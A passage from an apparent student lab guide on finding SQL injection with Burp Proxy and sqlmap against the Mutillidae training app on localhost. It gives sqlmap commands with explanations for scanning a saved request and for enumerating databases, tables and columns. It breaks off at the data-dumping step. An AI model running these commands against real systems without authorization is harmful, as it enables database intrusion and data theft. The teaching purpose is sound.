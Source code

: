 1. In Burp Proxy → HTTP history, find the request that contains the vulnerable parameter.
2. Right-click → **Save selected items** → save as `~/expt08/request.txt`. This file includes raw HTTP request (start-line, headers, body).

### B. Basic safe scan with sqlmap

```bash
cd ~/expt08
# safe non-interactive test
sqlmap -r request.txt --batch --level=1 --risk=1 -v 2 -o --threads=3 --output-dir=output_sqlmap
```

Explanation:

- `-r request.txt` — use saved request (most reliable).
- `--batch` — non-interactive (useful in exams).
- `--level=1 --risk=1` — low intrusiveness.
- `-v 2` — moderate verbosity.
- `--threads=3` — speed up a bit without being noisy.
- `--output-dir=output_sqlmap` — keeps outputs organized.

**Inspect output**: `output_sqlmap/*.txt` and `evidence/sqlmap_output.txt` (you can redirect stdout to a file when running).

---

## 6) Common sqlmap commands & examples

**1) Test a parameter directly (GET)**

```bash
sqlmap -u "http://localhost/mutillidae/product.php?id=2" --batch --level=1 --risk=1 -v 2
```

**2) Use saved request (recommended)**

```bash
sqlmap -r request.txt --batch --level=1 --risk=1 -v 2
```

**3) Enumerate databases**

```bash
sqlmap -r request.txt --dbs --batch --level=2 --risk=1 -v 2
# outputs databases names
```

**4) List tables from a specific DB**

```bash
sqlmap -r request.txt -D <dbname> --tables --batch --level=2 --risk=1
```

**5) List columns from a table**

```bash
sqlmap -r request.txt -D <dbname> -T <table> --columns --batch
```

**6) Dump specific columns/rows (with caution; ask instructor)**
